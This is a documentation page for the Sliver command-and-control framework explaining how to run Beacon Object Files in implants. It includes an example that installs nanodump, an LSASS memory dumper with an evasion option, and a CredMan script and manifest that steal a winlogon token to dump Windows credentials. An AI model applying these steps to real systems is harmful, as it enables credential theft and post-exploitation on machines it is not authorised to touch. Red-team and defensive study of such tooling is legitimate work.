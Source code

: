 Sliver v1.5 and later support the loading and execution of BOFs and COFFs, generally no code changes are needed to use BOFs with a Sliver implant. However, you may need to define a manifest file so that Sliver is aware of BOF arguments and their types.

### BOF Extensions

BOF support is provided via the [COFF Loader](https/github.com/sliverarmory/COFFLoader) extension, you'll need it installed to run pretty much any BOF. However, the COFF Loader will be installed automatically if you install a BOF extension from the [armory](/docs?name=Armory).

The easiest way to install a BOF extension, for example [`nanodump`](https/github.com/sliverarmory/nanodump), is using the [armory](/docs?name=Armory) package manager:

**IMPORTANT:** BOF Extensions are installed per-sliver client, they are not stored on the server. Thus extensions are not shared across operators, each operator must install the extension to use it.

```
sliver > armory install nanodump

[*] Installing extension 'nanodump' (v0.0.5) ... done!

sliver > nanodump -h

A Beacon Object File that creates a minidump of the LSASS process.

Usage:
======
 nanodump [flags] pid dump-name write-file signature

Args:
=====
 pid int The PID of the process you want to dump.
 dump-name string The name of the dump file.
 write-file int 1 = write file, 0 = fileless
 signature string Signature used for evasion, PMDM = default

Flags:
======
 -h, --help display help
 -s, --save Save output to disk
 -t, --timeout int command timeout in seconds (default: 60)
```

### Converting BOFs to Sliver

Converting existing BOFs to work with Sliver is usually pretty easy, and shouldn't require any code changes. You'll need to define an `extension.json` though based on what arguments/etc. the BOF accepts.

To determine the arguments a BOF accepts and their types, you'll need to read `.cna` script that accompanies a given BOF. For example, the [CredMan](https/github.com/sliverarmory/CredManBOF/blob/main/CredMan.cna) `.cna` script is show below:

```
alias CredMan {
	local('$handle $data $args $2');

 if(size(@_) != 3){
 berror($1, "CredMan: not enough arguments,Usage: CredMan [user process id] ");
 return;
 }

 $handle = openf(script_resource("CredMan.o"));
 $data = readb($handle, -1);
 closef($handle)

 $args = bof_pack($1,"i",$2);

 btask($1, "Running CredMan");


 beacon_inline_execute($1,$data,"go",$args);
}

beacon_command_register(
"CredMan",
"Enables SeTrustedCredManAccess Privilege in a token stolen from winlogon.exe to dump Windows Credential Manager");
```

| Type | Description | Sliver Type |
| ---- | -------------------------------- | ---------------------------- |
| b | binary data | `file` (path to binary data) |
| i | 4-byte integer | `int` or `integer` |
| s | 2-byte short integer | `short` |
| z | zero-terminated+encoded string | `string` |
| Z | zero-terminated wide-char string | `wstring` |

Looking at the script we can see the BOF requires a single integer argument. The corresponding Sliver `extension.json` file is shown below. Note that BOFs will always rely on the `coff-loader` extension but other kinds of extensions may not. If the `coff-loader` extension is not already installed on your system, it can be installed using `armory install coff-loader`. You can list installed extensions by simply running the `extensions` command with no arguments.

```json
{
 "name": "credman",
 "version": "1.0.0",
 "command_name": "credman",
 "extension_author": "lesnuages",
 "original_author": "jsecu",
 "repo_url": "https/github.com/sliverarmory/CredManBOF",
 "help": "Dump credentials using the CredsBackupCredentials API",
 "long_help": "",
 "depends_on": "coff-loader",
 "entrypoint": "go",
 "files": [
 {
 "os": "windows",
 "arch": "amd64",
 "path": "credman.x64.o"
 },
 {
 "os": "windows",
 "arch": "386",
 "path": "credman.x86.o"
 }
 ],
 "arguments": [
 {
 "name": "pid",
 "desc": "PID of a process started by the target user",
 "type": "int",
 "optional": false
 }
 ]
}
```

Once the manifest is defined load it into your client using `extensions load`, locally loaded extensions do not need to be cryptographically signed. The paths in the manifest should be relative to the manifest file, parent directories are not allowed.

More details can be found on the [Aliases & Extensions](/docs?name=Aliases+and+Extensions) page.

**IMPORTANT:** For BOF extensions to be properly detected by the Sliver client, the `path` must use the `.o` file extension.

